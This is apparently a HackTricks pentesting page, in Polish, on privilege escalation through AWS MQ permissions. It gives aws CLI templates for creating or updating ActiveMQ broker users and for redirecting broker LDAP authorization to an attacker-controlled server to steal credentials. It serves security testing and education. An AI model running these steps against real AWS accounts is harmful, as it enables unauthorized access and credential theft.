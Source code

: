 # AWS - MQ Privesc

{{#include ../../../banners/hacktricks-training.md}}

## MQ

Aby uzyskać więcej informacji na temat MQ, sprawdź:

{{#ref}}
../aws-services/aws-mq-enum.md
{{#endref}}

### `mq:ListBrokers`, `mq:CreateUser`

Dzięki tym uprawnieniom możesz **utworzyć nowego użytkownika w brokerze ActiveMQ** (to nie działa w RabbitMQ):
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
**Potencjalny wpływ:** Uzyskanie dostępu do wrażliwych informacji poprzez nawigację w ActiveMQ

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

Dzięki tym uprawnieniom możesz **utworzyć nowego użytkownika w brokerze ActimeMQ** (to nie działa w RabbitMQ):
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
**Potencjalny wpływ:** Dostęp do wrażliwych informacji poprzez nawigację w ActiveMQ

### `mq:ListBrokers`, `mq:UpdateBroker`

Jeśli broker używa **LDAP** do autoryzacji z **ActiveMQ**, możliwe jest **zmienienie** **konfiguracji** serwera LDAP na **taki kontrolowany przez atakującego**. W ten sposób atakujący będzie mógł **ukraść wszystkie poświadczenia przesyłane przez LDAP**.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
Jeśli w jakiś sposób udałoby ci się znaleźć oryginalne poświadczenia używane przez ActiveMQ, mógłbyś przeprowadzić atak MitM, ukraść poświadczenia, użyć ich na oryginalnym serwerze i wysłać odpowiedź (może po prostu ponownie używając skradzionych poświadczeń, mógłbyś to zrobić).

**Potencjalny wpływ:** Ukraść poświadczenia ActiveMQ

{{#include ../../../banners/hacktricks-training.md}}
